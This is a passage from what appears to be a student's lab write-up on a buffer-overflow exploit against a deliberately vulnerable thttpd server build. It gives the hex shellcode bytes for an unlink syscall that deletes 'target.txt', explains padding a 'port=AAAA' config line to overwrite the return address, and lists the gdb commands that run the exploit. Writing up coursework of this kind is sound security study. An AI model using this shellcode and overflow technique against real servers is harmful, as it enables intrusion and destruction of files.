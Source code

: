 	74 61 72 67 65 74 2E 74 78 74 00

I also added a null byte at the end (00) to show that the file 
name is done. During my tests, the exploit was not working due 
to lack of a null byte. Appending this to the end of my malicious 
code, I now have:

	60 cf ff ff ff 7f 00 00 48 bf 71 cf ff ff ff 7f 00 00 b8 57 00 00 00 0f 05 74 61 72 67 65 74 2E 74 78 74 00


8. My final step was to convert the above bytes to raw code and 
then append that to my exploit.txt file so that everything is 
lined up accordingly. I used the hex2raw executable to do this. 
At first it didn't work but I realized I needed to do chmod +777 
to change the permissions of the file. My raw code was this:

    `Ïÿÿÿ^?^@^@H¿qÏÿÿÿ^?^@^@¸W^@^@^@^O^Etarget.txt^@


After converting, I appended the above code into exploit.txt which 
as of now contains port=AAAA.... The A's are of course garbage that 
allows the raw code to overwrite the return address. 


After appending the raw code to exploit.txt, I ran the thttpd-no executable with exploit.txt in gdb and my target.txt file was deleted. 

1. gdb --args src/thttpd-no -p 13047 -D -C exploit.txt
2. run
3. quit
4. Target.txt is nowhere to be found.

We are done.

My exploit.txt file is also included in my submission. 


	
